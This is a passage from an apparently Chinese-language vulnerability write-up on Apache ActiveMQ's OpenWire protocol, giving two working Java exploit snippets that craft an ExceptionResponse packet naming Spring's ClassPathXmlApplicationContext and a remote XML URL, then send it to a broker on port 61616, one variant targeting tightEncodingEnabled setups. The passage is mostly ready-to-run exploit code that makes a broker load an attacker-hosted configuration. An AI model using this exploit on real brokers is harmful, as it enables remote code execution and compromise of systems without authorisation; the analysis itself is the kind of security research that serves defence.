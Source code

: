 获取到 ExceptionResponse 的 DATA\_STRUCTURE\_TYPE 为 31，整体的协议比较简单，以下为攻击代码。

```bash
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeBoolean(true);
dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeBoolean(true);
dataOutput.writeUTF("http://localhost:8000/abcd");

Socket socket = new Socket("localhost", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

在看代码中发现 ActiveMQ 中存在一个 tightEncodingEnabled 的配置，启用 tightEncodingEnabled 配置后，ActiveMQ 会使用一种紧凑的消息编码方式，它采用了一些技巧，例如采用更紧凑的数据结构、二进制编码等，以减少消息的大小。

很明显如果目标启用了 tightEncodingEnabled 的话，上面的攻击代码肯定需要修改。经过测试发现默认 Broker 未打开该配置，Consumer 打开该配置。

这里也给出 tightEncodingEnabled 场景下，攻击 Broker 的利用代码

```bash
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

BooleanStream bs = new BooleanStream();
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(false);
bs.writeBoolean(true);
bs.writeBoolean(false);

bs.marshal(dataOutput);

dataOutput.writeUTF("bb");
dataOutput.writeUTF("aa");

dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeUTF("http://localhost:8000/abcd");

bos.flush();

Socket socket =new Socket("127.0.0.1", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```
